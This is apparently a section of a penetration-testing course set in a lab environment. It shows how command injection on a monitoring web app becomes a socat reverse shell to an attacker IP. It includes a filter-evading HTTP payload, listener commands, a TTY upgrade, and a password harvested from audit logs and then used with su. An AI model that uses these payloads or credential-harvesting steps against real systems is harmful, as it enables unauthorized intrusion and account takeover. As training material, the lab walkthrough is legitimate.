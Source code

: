 # Initial Access

---

Now that we've thoroughly enumerated and attacked the external perimeter and uncovered a wealth of findings, we're ready to shift gears and focus on obtaining stable internal network access. Per the SoW document, if we can achieve an internal foothold, the client would like us to see how far we can go up to and including gaining `Domain Admin level access`. In the last section, we worked hard on peeling apart the layers and finding web apps that led to early file read or remote code execution but didn't get us into the internal network. We left off with obtaining RCE on the `monitoring.inlanefreight.local` application after a hard-fought battle against filters and blacklists set in place to try to prevent `Command Injection` attacks.

---

## Getting a Reverse Shell

As mentioned in the previous section, we can use [Socat](https://linux.die.net/man/1/socat) to establish a reverse shell connection. Our base command will be as follows, but we'll need to tweak it some to get past the filtering:

Initial Access

```shell-session
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

We can modify this command to give us a payload to catch a reverse shell.

Initial Access

```shell-session
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
```

Start a `Netcat` listener on the port used in the Socat command (8443 here) and execute the above request in Burp Repeater. If all goes as intended, we will have a reverse shell as the `webdev` user.

Initial Access

```shell-session
swmpdnky@htb[/htb]$ nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm) 
```

Next, we'll need to upgrade to an `interactive TTY`. This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) describes a few methods. We could use a method that was also covered in the [Types of Shells](https://academy.hackthebox.com/module/77/section/725) section of the `Getting Started` module, executing the well-known Python one-liner (`python3 -c 'import pty; pty.spawn("/bin/bash")'`) to spawn a psuedo-terminal. But we're going to try something a bit different using `Socat`. The reason for doing this is to get a proper terminal so we can run commands like `su`, `sudo`, `ssh`, `use command completion`, and `open a text editor if needed`.

We'll start a Socat listener on our attack host.

Initial Access

```shell-session
swmpdnky@htb[/htb]$ socat file:`tty`,raw,echo=0 tcp-listen:4443
```

Next, we'll execute a Socat one-liner on the target host.

Initial Access

```shell-session
swmpdnky@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

If all goes as planned, we'll have a stable reverse shell connection on our Socat listener.

Initial Access

```shell-session
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
```

Now that we've got a stable reverse shell, we can start digging around the file system. The results of the `id` command are immediately interesting. The [Privileged Groups](https://academy.hackthebox.com/module/51/section/477) section of the `Linux Privilege Escalation` module shows an example of users in the `adm` group having rights to read ALL logs stored in `/var/log`. Perhaps we can find something interesting there. We can use [aureport](https://linux.die.net/man/8/aureport) to read audit logs on Linux systems, with the man page describing it as "aureport is a tool that produces summary reports of the audit system logs."

Initial Access

```shell-session
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

After running the command, type `q` to return to our shell. From the above output, it looks like a user was trying to authenticate as the `srvadm` user, and we have a potential credential pair `srvadm:ILFreightnixadm!`. Using the `su` command, we can authenticate as the `srvadm` user.

Initial Access

```shell-session
webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
```

Now that we've bypassed heavy filtering to achieve command injection, turned that code execution into a reverse shell, and escalated our privileges to another user, we don't want to lose access to this host. In the next section, we'll work towards achieving persistence, ideally after escalating privileges to `root`.